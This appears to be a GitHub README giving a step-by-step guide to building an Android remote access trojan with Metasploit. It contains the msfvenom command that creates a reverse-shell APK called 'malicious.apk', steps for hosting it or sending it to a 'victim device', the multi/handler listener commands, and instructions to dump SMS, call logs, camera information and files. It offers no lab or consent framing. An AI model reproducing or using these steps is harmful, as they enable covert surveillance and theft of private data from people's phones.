 # RAT-for-android
A Guide for making you own RAT(Remote access tool) for android with the help of msfconsole.

# Requirment to create your own RAT.
1.Kali linux
2.metaspolit framework
3.Apache2

# Steps to create RAT(Remote access tool)

1. Ensure that your system is upto date.
   (sudo apt update && sudo apt upgrade -y)

2. Install apache2 in your system.
   (sudo apt install apache2)
![WhatsApp Image 2025-01-02 at 8 18 26 PM](https://github.com/user-attachments/assets/7a05e6a3-130c-4166-9722-b39d56ca3a5e)
![WhatsApp Image 2025-01-02 at 8 19 11 PM](https://github.com/user-attachments/assets/f3c586d5-d138-4236-b3ba-2fc5b7cc4c53)

3. After installing you need to enable and start apache2 server.
   (sudo systemctl start apache2),
   (sudo systemctl enable apache2)
![WhatsApp Image 2025-01-02 at 8 22 12 PM](https://github.com/user-attachments/assets/e79ab4ab-95fd-4036-a629-ad5aaf41b1b4)
![WhatsApp Image 2025-01-02 at 8 23 06 PM](https://github.com/user-attachments/assets/22d2955e-c1dd-4f15-ac2b-5f4b0b65be02)

4. Verify that apache2 is running or not.
 (sudo systemctl status apache2)
![WhatsApp Image 2025-01-02 at 8 24 19 PM](https://github.com/user-attachments/assets/70dfab6d-b595-486b-abda-166a7b2b57af)
![WhatsApp Image 2025-01-02 at 8 24 39 PM](https://github.com/user-attachments/assets/559183fa-6e1f-4f59-9840-3e9f85f0ad6d)

5. If you have firewall enable in you system you need to add rule in firewall for apache2.
   (sudo ufw allow 'Apache Full')

6. You wil get you apache2 server folder at (/var/www/html/)

7. Now you have successfully created your apache2 server you can vist you index page of you server at
   (http//{your-ip}/index.html)

8. Next step is to create payload for you RAT apk.

9. We are using msfvenom for creating payload.
    (msfvenom -p android/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<port> R > malicious.apk).
   ![Screenshot 2025-01-02 191802](https://github.com/user-attachments/assets/3e9ed813-a821-4079-b78f-e03817f94de2)

10. LHOST: Your IP address (use ifconfig to find it).  
     LPORT: A port number for listening (e.g., 4444).  
     malicious.apk: The name of the APK file created.
![Screenshot 2025-01-02 191825](https://github.com/user-attachments/assets/26b29ecf-5f1e-451c-83f4-61132521c0ab)

11. After creating apk you can upload it to you server show that anyone with you link can download or you can share apk any way to victim device.

    (mv malicious.apk /var/www/html/) for moving apk to server.

12. Now open msfconsole to monitro the apk and perform task on it on victim device.
![Screenshot 2025-01-02 193021](https://github.com/user-attachments/assets/192ce1fd-543d-4fc8-add0-7d01b71a9550)
![Screenshot 2025-01-02 193046](https://github.com/user-attachments/assets/d072d315-4dfc-49c9-9d1e-21bdd957e387)

# Steps to connect to the paylod in victim device

sudo msfconsole  

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST {your-ip}

set LPORT {port}

exploit

13. Hit enter to exploit make sure you have successfully install the payload to the victim device.
![Screenshot 2025-01-02 193214](https://github.com/user-attachments/assets/34c56c34-e7d3-4306-891c-24bbdea74026)

14. It will get connect to victim device now you can have access to it file manager,sms,calllogs,sysinfo,camer,etc.
![Screenshot 2025-01-02 193448](https://github.com/user-attachments/assets/82ba145d-a55d-4233-a6d7-54962bff0814)
![Screenshot 2025-01-02 193458](https://github.com/user-attachments/assets/942e9f88-17c3-4501-af78-e9713cbc193c)

15. once connection is successfull try using (dump_sms for sms ,dump_calllog for call logs ,webcam_list , sysinfo for system info, ls to list dir)
![Screenshot 2025-01-02 193517](https://github.com/user-attachments/assets/c42653cf-0695-4f88-8549-3041b24862b4)
![Screenshot 2025-01-02 193535](https://github.com/user-attachments/assets/babd95e8-5496-4bac-bb62-8ab251baf7e2)
# Sms output
![Screenshot 2025-01-02 204049](https://github.com/user-attachments/assets/b0c6d2cd-8ae0-4946-b9fc-f0a42fc0cdf2)
